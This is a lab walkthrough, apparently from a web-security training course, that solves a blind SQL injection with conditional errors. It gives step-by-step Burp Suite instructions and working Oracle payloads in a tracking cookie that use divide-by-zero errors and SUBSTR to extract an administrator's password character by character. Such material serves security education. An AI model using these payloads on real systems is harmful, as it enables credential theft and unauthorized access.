# Lab 10: Blind SQL injection with conditional errors

### 🧪 **Lab Description**

This lab contains a **blind SQL injection** vulnerability.

The application uses a **tracking cookie** for analytics and includes the cookie's value in a **SQL query**.

### 🧩 **Vulnerability Characteristics**

- The SQL query **does not return results**.
- The application shows **no difference in behavior** based on whether the query returns any rows.
- If the SQL query causes an **error**, the application **returns a custom error message**.

### 🗃️ **Database Details**

- The database contains a table called **`users`**.
- This table has the following columns:
    - `username`
    - `password`

### 🎯 **Objective**

Exploit the **blind SQL injection** vulnerability to **extract the password** of the `administrator` user.

### ✅ **Lab Goal**

Once you have retrieved the password, **log in as the `administrator`** to solve the lab.

---

### **Solution**

**🛒 1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.**





✏️ 2. Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=xyz'`. Verify that an error message is received.
                        
✌️ 3. Now change it to two quotation marks: `TrackingId=xyz''`. Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.
                    
🔎 4. Confirm that the server is interpreting the injection as a SQL query. Try submitting:

```sql
TrackingId=xyz'||(SELECT '')||'

```



In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:

```sql
TrackingId=xyz'||(SELECT '' FROM dual)||'

```


As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all `SELECT` statements to explicitly specify a table name.

🧪 5. Submit an invalid query using a non-existent table:

```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```

If an error is returned, SQL injection is working.



                       
**🔍** 6. As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the `users` table exists, send the following query:

```sql
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'

```



As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.
                        
**❓** 7.  You can also exploit this behavior to test conditions. First, submit the following query:

```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

```


Verify that an error message is received.
                        
**✅** 8. Now change it to:

```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

```



Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition
 and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and an error is received when the condition is `true`.
                        
**🧑‍💼**9. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username `administrator` exists:

```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```



Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.
                        
10. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
                        

```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```


This condition should be true, confirming that the password is greater than 1 character in length.
                        
11. Send a series of follow-up values to test different password lengths. Send:

```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Then send:

```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```




And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.
                        
12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to 
use Burp Intruder. Send the request you are working on to Burp Intruder,
 using the context menu.

13. Go to Burp Intruder and change the value of the cookie to:

```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```



This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
                        
14. Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the"Add §" button. You should then see the 
following as the cookie value (note the payload position markers):

```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```



15. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. In the "Payloads" side panel, check that "Simple list" is selected, and under "Payload configuration" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.



     
16. Launch the attack by clicking the " Start attack" button.

17. Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.





               
18. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the original Intruder tab, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
                        

```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

you can use a cluser mod in the burp intruder.
19. Launch the modified attack, review the results, and note the character at the second offset.










               
20. Continue this process testing offset 3, 4, and so on, until you have the whole password.

               
21. In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

